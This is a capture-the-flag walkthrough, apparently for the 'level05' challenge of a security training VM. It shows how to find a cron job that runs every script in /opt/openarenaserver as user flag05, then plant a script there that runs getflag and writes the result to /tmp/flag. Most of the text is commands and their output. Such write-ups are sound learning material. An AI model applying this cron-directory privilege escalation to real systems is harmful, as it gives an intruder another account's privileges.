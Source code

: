 We start by searching for any files or directories related to `level05` to gather more information:
```bash
find / -name "*level05" 2>/dev/null
```

The output shows:
```bash
/var/mail/level05
/rofs/var/mail/level05
```

We check the contents of `/var/mail/level05`:
```bash
cat /var/mail/level05
```
The output shows a cron job:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This cron job runs every 2 minutes and executes the script `/usr/sbin/openarenaserver` as `flag05`.

Next, we inspect the script:
```bash
cat /usr/sbin/openarenaserver`
```
The output shows:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Let's now inspect the folder where the script runs, and create a script in it:
```bash
cd /opt/openarenaserver/
```

We create a new file called flag that contains the command to run `getflag` and redirect the output to `/tmp/flag`:
```bash
echo '/bin/getflag > /tmp/flag' > /opt/openarenaserver/malicious_script
chmod +x /opt/openarenaserver/malicious_script
```

This makes the file executable, so the cron job will execute it. Every 2 minutes, the cron job runs the files in `/opt/openarenaserver` and deletes them, which for us means that it executes the getflag command and writes the flag to `/tmp/flag`.

Now, we check the contents of `/tmp/flag` to retrieve the flag:
```bash
cat /tmp/flag
```